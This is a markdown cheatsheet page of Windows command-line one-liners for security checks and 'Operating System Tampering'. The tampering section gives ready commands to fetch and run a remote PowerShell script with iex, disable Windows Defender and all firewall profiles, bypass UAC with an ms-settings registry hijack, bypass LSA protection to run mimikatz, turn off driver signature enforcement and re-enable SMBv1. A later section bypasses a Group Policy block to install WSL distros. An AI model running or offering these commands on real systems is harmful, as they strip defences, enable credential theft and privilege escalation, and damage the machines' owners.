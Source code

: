 ```yaml
---
layout: default
title: Sysadmin CLI WIN
parent: Windows
categories: Sysadmin
grand_parent: Cheatsheets
---
```

<!-- vscode-markdown-toc -->
* 1. [Security Checks](#SecurityChecks)
	* 1.1. [listing kb](#listingkb)
	* 1.2. [windows firewall status](#windowsfirewallstatus)
	* 1.3. [windows defender status](#windowsdefenderstatus)
* 2. [Operating System Tampering](#OperatingSystemTampering)
	* 2.1. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 2.2. [windows defender: disable](#windowsdefender:disable)
	* 2.3. [windows firewall: disable](#windowsfirewall:disable)
	* 2.4. [windows uac: bypass](#windowsuac:bypass)
	* 2.5. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 2.6. [Windows driver signature: disable](#Windowsdriversignature:disable)
	* 2.7. [SMBv1: enable](#SMBv1:enable)
* 3. [Windows DISM](#WindowsDISM)
* 4. [Windows WSL manual distro install](#WindowsWSLmanualdistroinstall)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

# {{ page.title }}

##  1. <a name='SecurityChecks'></a>Security Checks

###  1.1. <a name='listingkb'></a>listing kb
```batch
wmic qfe list full /format:table
```

###  1.2. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
```

###  1.3. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  2. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  2.1. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  2.2. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  2.3. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  2.4. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  2.5. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  2.6. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

###  2.7. <a name='SMBv1:enable'></a>SMBv1: enable
```batch
DISM /online /enable-feature /featurename:SMB1Protocol
DISM /online /enable-feature /featurename:SMB1Protocol-Client
DISM /online /enable-feature /featurename:SMB1Protocol-Server
DISM /online /enable-feature /featurename:SMB1Protocol-Deprecation
```

##  3. <a name='WindowsDISM'></a>Windows DISM
```batch
# Pre requisites: Admin rights
# get all windows feature and save to a txt file
DISM /online /get-features /format:table > C:\Temp\dism_listing.txt
get-windowsoptionalfeature -online | ft | more

# get windows feature that are enable/disable
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more

# get windows feature by its name
DISM /online /get-featureinfo /featurename:Microsoft-Windows-Subsystem-Linux
DISM /online /get-featureinfo /featurename:TelnetClient
get-windowsoptionalfeature -online -featurename SMB1Protocol*
get-windowsoptionalfeature -online -featurename SMB1Protocol* |ft
```

##  4. <a name='WindowsWSLmanualdistroinstall'></a>Windows WSL manual distro install
```
# Note: By pass the GPO blocking the exec of the App Store app

Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
New-Item C:\Ubuntu -ItemType Directory
Set-Location C:\Ubuntu
Invoke-WebRequest -Uri https://aka.ms/wsl-ubuntu-1604 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wslubuntu2004 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wsl-kali-linux-new -OutFile Kali.appx -UseBasicParsing
 
# Extract and execute the EXE in the archive to install the distro
Rename-Item .\Ubuntu.appx Ubuntu.zip
Expand-Archive .\Ubuntu.zip -Verbose
Ubuntu.exe

# List the distributions installed
wslconfig /list /all
wsl -l
```
